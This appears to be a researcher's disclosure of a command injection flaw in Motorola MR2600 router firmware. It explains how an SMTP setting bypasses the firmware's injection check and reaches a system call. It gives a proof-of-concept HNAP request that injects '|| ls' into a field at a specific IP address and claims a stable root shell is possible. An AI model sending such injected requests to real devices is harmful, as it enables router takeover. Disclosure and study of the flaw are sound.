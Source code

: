 # Motorala MR2600 MR2600-v1.0.14.img Command injection vulnerability

## Overview

- Manufacturer's website information：https://www.motorola.com/
- Firmware download address ： https://www.motorolacable.com/support/MR2600/software/

## 1. Affected version

![image-20220522091248943](img/image-20220522091248943.png)

Figure 1 shows the latest firmware Ba of the router

## Vulnerability details

![image-20220522104519517](img/image-20220522104519517.png)

Program by getting SaveSysEmailParams/SMTPServerPort the value of the parameter, passed to v9

![image-20220522104536102](img/image-20220522104536102.png)

After check_command_inject_ch function, check the command injection, v9, we can use '| |' symbol to bypass

The program then uses the nvram_SAFE_set function to set SysLogMail_SMTPServerPort to v9

![image-20220522104557711](img/image-20220522104557711.png)

In the rc file, the program uses nvram_safe_GET to get the value of SysLogMail_SMTPServerPort and passes it to V9. Then it uses sprintf to format V9 into V33. Finally, it uses twSystem to execute v33. Command injection vulnerability exists

## Recurring vulnerabilities and POC

In order to reproduce the vulnerability, the following steps can be followed:

1. Use the fat simulation firmware MR2600-v1.0.14.img
2. Attack with the following POC attacks

```
POST /HNAP1/ HTTP/1.1
Host: 81.70.52.167:7018
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:98.0) Gecko/20100101 Firefox/98.0
Accept: text/xml
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Accept-Encoding: gzip, deflate
Content-Type: text/xml
SOAPACTION: "http://purenetworks.com/HNAP1/SetNetworkSettings"
HNAP_AUTH: 3C5A4B9EECED160285AAE8D34D8CBA43 1649125990491
Content-Length: 632
Origin: http://81.70.52.167:7018
Connection: close
Referer: http://81.70.52.167:7018/Network.html
Cookie: SESSION_ID=2:1556825615:2; uid=TFKV4ftJ

<?xml version="1.0" encoding="UTF-8"?>
<soap:Envelope xmlns:xsi="http://www.w3.org/2001/XMLSchema-instance" xmlns:xsd="http://www.w3.org/2001/XMLSchema" xmlns:soap="http://schemas.xmlsoap.org/soap/envelope/">
<soap:Body>
<SysLogMail_SMTPServer xmlns="http://purenetworks.com/HNAP1/">
	<SMTPServerAddress> % || ls > /tmp/456 || echo 1</SMTPServerAddress>
</SysLogMail_SMTPServer>
</soap:Body>
</soap:Envelope>
```

![image-20220405112133823](img/image-20220405112133823.png)

Figure 2 POC attack effect

Finally, you can write exp, which can achieve a very stable effect of obtaining the root shell

![image-20220522091701627](img/image-20220522091701627.png)